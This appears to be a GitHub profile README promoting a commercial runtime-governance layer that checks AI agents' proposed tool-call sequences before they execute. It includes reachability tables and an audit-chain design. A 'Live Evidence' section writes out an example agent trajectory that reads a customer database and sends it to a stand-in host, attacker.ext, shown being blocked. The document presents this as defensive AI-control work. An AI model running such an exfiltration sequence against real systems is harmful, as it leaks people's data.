



<div align="center">

# Davarn Morrison

**Founder & CEO — Resurrection Tech Ltd · London**

*Bounded local safety, pre-execution runtime governance, causal resolution and dynamical systems research*

[](https://github.com/davarntrades/Morrison-Runtime-Governance)
[](https://resurrection-tech.com)
[](https://github.com/davarntrades/Morrison-Runtime-Governance/blob/main/GLOBAL_SAFETY_VERIFICATION.md)
[](https://github.com/davarntrades/Morrison-Runtime-Governance)
[](https://resurrection-tech.com)
[](https://www.linkedin.com/in/davarn-morrison-14b93b263)
[](https://resurrection-tech.com)

**“Safety is not only what a model says. It is the region in which the deployed system can actually operate.”**

</div>

---

## Latest Milestone — Exhaustive Finite-Model Global Safety Verification

Morrison Runtime Governance now includes a **Global Safety Verification Harness** that exhaustively enumerates the complete reachable state graph of deliberately bounded autonomous-system environments.

This goes beyond sampling successful trajectories. For a finite environment **E**, admissible initial-state set **X₀**, unsafe-state set **U**, transition function **T** and governance configuration **G**, the harness tests:

```text
For every x₀ ∈ X₀:
Reach_G(x₀) ∩ U = ∅
```

The primary finite models were completely exhausted in both control and governed modes:

| Finite model | Control reachable states | Control unsafe states | Governed reachable states | Governed unsafe states | Morrison-blocked transitions | Result |
|---|---:|---:|---:|---:|---:|---|
| Secret exfiltration | 8 | 2 | 3 | 0 | 3 | **SAFE_WITHIN_MODEL** |
| Privilege / persistence | 7 | 4 | 1 | 0 | 1 | **SAFE_WITHIN_MODEL** |
| Governance bypass | 16 | 15 | 1 | 0 | 4 | **SAFE_WITHIN_MODEL** |
| Constraint awareness vs execution authority | 2 | 1 | 1 | 0 | 1 | **SAFE_WITHIN_MODEL** |

The composition experiment was also exhaustively enumerated: control reached **25 states**, including **13 unsafe states**; governed execution reached **2 states**, with **0 unsafe states** and **4 blocked transitions**. No new unsafe path appeared through the tested composition.

The causal result is not merely that Morrison recognised prohibited actions. Morrison removed executable transitions from the governed state graph, making states reachable in the control environment unreachable under the tested governance configuration.

> **Representation of a constraint is evidence of awareness, not evidence of control.**

A planner may represent, understand and intentionally propose a prohibited action. Execution authority remains independent: the action is evaluated by Morrison before it can change the environment.

**Claim boundary:** this establishes global safety only within each completely enumerated finite modeled environment and its explicit assumptions. It does **not** establish universal real-world AI safety.

[Read the verification specification and results](https://github.com/davarntrades/Morrison-Runtime-Governance/blob/main/GLOBAL_SAFETY_VERIFICATION.md) · [Run the current quick start](https://github.com/davarntrades/Morrison-Runtime-Governance/blob/main/quickstart.py) · [Review merged PR #29](https://github.com/davarntrades/Morrison-Runtime-Governance/pull/29)

---

## Current Morrison Capability

Resurrection Tech has a live, public assessment surface backed by the real Morrison Runtime Governance engine and a more advanced enterprise Control Room behind it.

The current system can:

- evaluate proposed autonomous trajectories **before execution**
- determine whether a configured forbidden state **Ω** is reachable
- issue a canonical **ALLOW / ESCALATE / BLOCK** governance verdict
- prevent side effects before execution when policy is violated
- identify the responsible governance layer and triggered rule
- preserve trajectory hashes, provenance and auditable evidence
- surface **bounded Safety Envelope** results rather than making global safety claims
- distinguish **OBSERVED LOCAL SAFETY** from **UNVALIDATED** configurations
- expose validated conditions including tools, capabilities, permissions, planners, trust boundaries and horizon
- surface unsupported / unvalidated regions explicitly so no safety claim is inherited outside the tested envelope
- quantify direct protected value and separate it from illustrative downstream enterprise impact
- project potentially relevant regulatory / compliance context without claiming legal applicability or compliance certification
- maintain a hash-linked audit chain for runtime evidence

The public demo is intentionally the proof surface. The Control Room extends this into operational governance, continuous governed sessions, Shadow Mode, Guarded Pilot, Enforced mode, richer audits, policy controls, evidence chains, integration state, acceptance testing, downloadable evidence and executive reporting.

---

## The Thesis

Autonomous AI is moving from generating answers to **taking actions** across APIs, infrastructure, financial systems, healthcare workflows, security tooling and multi-agent environments.

The important question is no longer only:

> *Is the model safe?*

It is:

> **What does locally safe operation actually look like inside this environment — under these tools, permissions, policies, workflows and reachable states?**

My broader research asks an even more general question:

> **How much representation must be preserved for the causes relevant to prediction and intervention not to disappear under coarse-graining?**

The runtime-governance work is the first experimentally tractable instance of that larger causal-resolution programme.

---

## Local Safety Envelopes

Safety-critical engineering rarely relies on a vague statement that a system is simply “safe.” It defines an **operating envelope**: the bounded region in which operation remains acceptable, and the conditions under which the boundary has been crossed.

I apply that principle to autonomous systems.

> **A local Safety Envelope is the declared, tested operating region within which a specified safety property has been evaluated under a particular configuration of tools, permissions, capabilities, planners, policies, trust boundaries, perturbations and horizon.**

It is deliberately **not** a universal claim that the underlying model is globally safe.

The system therefore distinguishes between:

- **OBSERVED LOCAL SAFETY** — the tested safety property held within the declared operating envelope for the evaluated trajectory / configuration.
- **UNVALIDATED** — the configuration is outside tested conditions; this status implies neither safe nor unsafe.

The governing principle is explicit:

> **This claim applies only to the declared tested envelope. No safety claim is inherited outside that envelope.**

This is the core assurance boundary.

---

## Morrison Runtime Governance™

I’m building **Morrison Runtime Governance™** at Resurrection Tech: a model-agnostic pre-execution governance layer that maps, tests and enforces bounded local safety between an autonomous system and the real systems it can affect.

Every proposed trajectory is evaluated **before execution**.

- If the trajectory remains admissible, it can proceed.
- If the boundary is uncertain, it can be escalated.
- If the trajectory leaves the envelope, violates a constraint, or enters a configured forbidden region **Ω**, it is blocked before side effects occur.

**ALLOW · ESCALATE · BLOCK**



The planner can change. The model can change. The governance invariant remains external to the model.

---

## Why Trajectory-Level Governance Matters

Unsafe outcomes are often produced by sequences, not isolated calls.

Examples include:

- authorised data acquisition → storage / aggregation → prohibited external egress
- permitted finance access → excessive or unauthorised transfer
- valid healthcare access → PHI exposure or unsafe downstream action
- normal shell commands → privilege escalation or destructive execution
- separately acceptable multi-agent actions → jointly unsafe outcome

The objective is not merely to classify an output after the fact. It is to know **what harmful states are becoming reachable before execution crosses the boundary**.

```text
Locally admissible trajectory ⇔ ℛ(t) remains inside the declared Safety Envelope
Forbidden reachability ⇔ ℛ(t) ∩ Ω ≠ ∅
```

Where **ℛ(t)** is the set of reachable states and **Ω** is the configured forbidden region.

---

## Live Evidence: Data-Egress Example

A custom public evaluation can submit a trajectory such as:

```text
read_database(table="customers")
store(key="shared::rows")
http_request(url="https://attacker.ext")
```

Morrison detects the structurally meaningful transition — **external egress after data acquisition** — rather than treating each tool call as an isolated event.

The resulting evidence can include:

```text
Canonical verdict: BLOCK
Forbidden state: external_egress_after_read
Responsible layer: egress_policy
Ω reachable: true
Execution occurred: false
```

The same evaluation can then surface bounded Safety Envelope status, protected-value context, regulatory-control context and the audit sequence that led to the decision.

---

## Regulatory / Compliance Exposure Projection

The runtime now includes a separate **contextual regulatory-exposure layer**.

The canonical governance verdict remains authoritative for execution. Regulatory projection is intentionally downstream and non-authoritative.

It can surface potentially relevant frameworks such as:

- EU GDPR
- UK GDPR / Data Protection Act 2018
- NIS2 Directive
- Digital Operational Resilience Act (DORA)
- PCI DSS
- HIPAA / HITECH
- UK financial-services governance context

The system records the evidence category as **CONTEXTUAL** and distinguishes technical relevance from legal applicability.

It does **not** claim:

- that a law definitely applies
- that a violation occurred
- that enforcement occurred
- that a statutory maximum is a predicted fine
- that an estimated enterprise impact is guaranteed savings
- that the output constitutes legal advice or compliance certification

This separation is deliberate: runtime evidence can be authoritative about **what the system proposed, what became reachable, what rule fired and whether execution occurred**; legal applicability requires additional factual and legal determination.

---

## Protected Value

The live assessment surface also separates:

1. **Direct exposure prevented** — the immediate asset, transfer, data or operational exposure associated with the blocked trajectory.
2. **Estimated enterprise impact avoided** — illustrative downstream exposure such as investigation, legal review, notification, regulatory scrutiny, operational disruption and reputational harm.

This keeps direct measurable exposure distinct from scenario-based enterprise impact estimates.

---

## Tamper-Evident Audit Evidence

Runtime events are exportable into a hash-linked evidence chain.

The current audit-chain design uses:

```text
record_hash = SHA-256(prev_hash + JSON.stringify(record_without_hashes, sortedKeys))
```

Each record can preserve:

- timestamp
- source and scenario
- trajectory
- triggered rule
- canonical verdict
- governance layer
- Ω domain
- reasoning
- regulatory context
- previous-record hash
- current-record hash

This creates a tamper-evident chain from trajectory submission through reachability evaluation, governance decision and downstream contextual evidence.

---

## Current Verification Evidence

Recent verification work includes:

| Suite / check | Result |
|---|---:|
| Full Morrison repository | **1,092 passed, 7 environment-dependent skips** |
| Global Safety Verification Harness | **22 passed** |
| Safety Envelope + causal overlay + global verification | **62 passed** |
| Causal overlay focused | **19 passed** |
| Safety Envelope focused | **24 passed** |
| Governed-result projection | **10 passed** |
| Canonical-verdict invariance selection | **6 passed, 38 deselected** |
| Enterprise governance service | **46 passed** |
| New Safety Envelope UI contracts | **9 passed** |
| Operational contracts | **51 passed** |
| Integration gateway | **25 passed** |
| TypeScript typecheck | **Passed** |
| ESLint on changed TS/TSX | **Passed** |
| Next.js production build | **Passed; 52 routes generated** |

These results are evidence of the implementation and test harness — not a claim of universal system safety.

---

## Enforcement Stack

```text
A_safe ⊂ V₂ ⊂ V₃ ⊂ V₄ ⊂ V₄⁺ ⊂ V₅ ⊂ V₅⁺
```

| Layer | Core question |
|---|---|
| **A_safe** | Is the current step directly forbidden? |
| **V₂** | Is the trajectory drifting toward the Safety Envelope boundary? |
| **V₃** | Is the trajectory forecast to leave the envelope or reach Ω? |
| **V₄ / V₄⁺** | Does a locally admissible state or trajectory remain constructible? |
| **V₅ / V₅⁺** | Does the local safety property survive perturbation and adversarial assumption attack? |

---

## Causal Analysis Overlay

I am developing an additive **Structural Causal Model (SCM)-based causal analysis overlay** around Morrison’s canonical trajectory evidence.

The runtime-governance layer remains authoritative for the pre-execution **ALLOW / ESCALATE / BLOCK** decision. The causal overlay asks a different class of questions:

- Why was the Safety Envelope boundary reachable?
- Which variables materially contributed to that reachability?
- What intervention would have broken the trajectory?
- Would Ω still have been reachable if permission, safeguard state, approval or another causal parent had changed?



> **Dynamics asks how the system moved and what became reachable.**  
> **Structural causal modelling asks what would have changed the outcome.**

---

## Causal Sufficiency and Coarse-Graining

My broader research is moving toward **Causal Information Sufficiency**: the question of when a representation has compressed away information required for prediction, reconstruction, intervention, early detection or accountability.

The central research question is:

> **How much representation must be preserved for the causes relevant to prediction and intervention not to disappear under coarse-graining?**

A working proposition is:

> **A representation is causally sufficient for a task only if its coarse-graining preserves every distinction that changes the task-relevant reachable set or the effect of an admissible intervention.**

This is intentionally broader than autonomous AI.

The hypothesis is that psychological, behavioural, diagnostic or semantic labels can be useful interface-level descriptions while still being **causally insufficient** for certain tasks if they discard variables needed to explain state transitions, identify precursors, select interventions or detect collapse early.

The research therefore asks whether a task-relative minimum representation can be defined:

```text
Find the coarsest representation R
such that the causes relevant to task T remain preserved.
```

This connects runtime governance to a wider dynamical-systems programme spanning autonomous systems and, eventually, appropriately measurable biological / human systems.

See **[Causal Information Sufficiency](https://github.com/davarntrades/-The-Morrison-Framework-/blob/main/CAUSAL_INFORMATION_SUFFICIENCY.md)**.

---

## The Psychological-Language Absurdity Test

Psychological language may be useful shorthand, but the important question is not whether such language is allowed. It is:

> **Is the language causally sufficient for the task at hand?**

If an explanation omits variables required to explain why an event occurred, reconstruct the trajectory, identify where control failed, intervene, assign responsibility or prevent recurrence, then the explanation may be behaviourally useful while remaining causally insufficient.

A practical diagnostic is to apply the same explanation to a domain where causal accountability is non-negotiable:

- guided missile
- aircraft-control system
- nuclear protection system
- medical device
- railway interlocking system
- autonomous agent with real-world tool access

If the explanation would be rejected there because it fails to identify state, inputs, constraints, reachable states, transitions and intervention points, the same causal-sufficiency question should be asked elsewhere.

---

## Integration Surface

Morrison is designed to sit at the action boundary across agent frameworks and enterprise workflows, including:

- OpenAI tool / function calling
- Anthropic / Claude tool use
- Hugging Face / open-weight model workflows
- AWS Bedrock
- LangChain / LangGraph-style orchestration
- AutoGen
- MCP
- browser agents
- shell / subprocess execution
- Gmail and enterprise workflow integrations
- custom enterprise systems



---

## Operational Modes

The enterprise runtime supports progressively stronger deployment postures:

- **Shadow Mode** — observe and evaluate without enforcing side-effect prevention in the target environment
- **Guarded Pilot** — governed execution with review / escalation controls
- **Enforced Mode** — runtime policy is authoritative and unsafe trajectories are prevented before execution

Continuous governed sessions preserve workflow state, governance decisions, re-planning behaviour, evidence and session-aware continuity across multi-step agent activity.

---

## Current Commercial Focus

I am focused on turning technical proof into **external, environment-specific Safety Envelope evidence** through tightly scoped enterprise deployments.

### Best-fit opportunities

- Safety Envelope Assessment
- 48-Hour Runtime Governance Audit
- Shadow Mode / Limited Pilot
- Guarded Pilot
- Enterprise Integration
- OEM / technology-alliance integration
- independent technical evaluation / research validation
- regulated or high-consequence autonomous workflows in cybersecurity, healthcare, finance, critical infrastructure and sovereign environments

The ideal engagement is a bounded real or sandboxed workflow where an autonomous system has meaningful tool permissions and the organisation wants to answer:

> **What can this system safely reach in our environment — and where should execution stop?**

The target proof is deliberately scoped:

> **Morrison has established and validated a local Safety Envelope for this specific autonomous workflow, in this specific environment, under these declared tools, permissions, policies, planners, trust boundaries and reachable states.**

If that describes your environment, I’m open to a focused technical evaluation or pilot conversation.

---

## Research Direction

My broader work explores a structure-first view of intelligent and dynamical systems:

- local safety as a bounded operating envelope
- intelligence / behaviour as trajectories through state space
- safety as reachability constraints
- capability as an executable set rather than a psychological description
- governance as control over admissible state transitions
- causal sufficiency as task-relative
- coarse-graining as a potential source of lost causal resolution
- early detection as pre-transition state estimation rather than post-event classification
- dynamical systems combined with structural causal modelling for intervention analysis
- causality and accountability preserved at the execution boundary
- the possibility of a more general information-theoretic account of causal representation in dynamical systems

This leads to two principles:

> **When causal accountability is non-negotiable, describe the system in terms of states, constraints, trajectories and actions — not intentions alone.**

> **A useful representation should compress the system no further than the point at which task-relevant causal distinctions disappear.**

---

## Selected Repositories

- **[Morrison Runtime Governance](https://github.com/davarntrades/Morrison-Runtime-Governance)** — bounded local Safety Envelopes and pre-execution trajectory governance
- **[Information Asymmetry](https://github.com/davarntrades/information-asymmetry)** — causal sufficiency, representation, information loss and intervention-oriented research
- **[Causal Information Sufficiency](https://github.com/davarntrades/-The-Morrison-Framework-/blob/main/CAUSAL_INFORMATION_SUFFICIENCY.md)** — coarse-graining, task-relative causal preservation and intervention
- **[Resurrection Tech Enterprise](https://github.com/davarntrades/resurrection-tech-enterprise)** — enterprise deployment and integration infrastructure
- **[Trajectory](https://github.com/davarntrades/Trajectory-Always-On-Executive-Intelligence-)** — always-on executive intelligence system

---

<div align="center">

### Resurrection Tech Ltd

**See the Safety Envelope your AI can actually operate within — in your environment, before actions execute.**

[Website](https://resurrection-tech.com) · [LinkedIn](https://www.linkedin.com/in/davarn-morrison-14b93b263) · [GitHub](https://github.com/davarntrades) · [Email](mailto:davarn@resurrection-tech.com)

</div>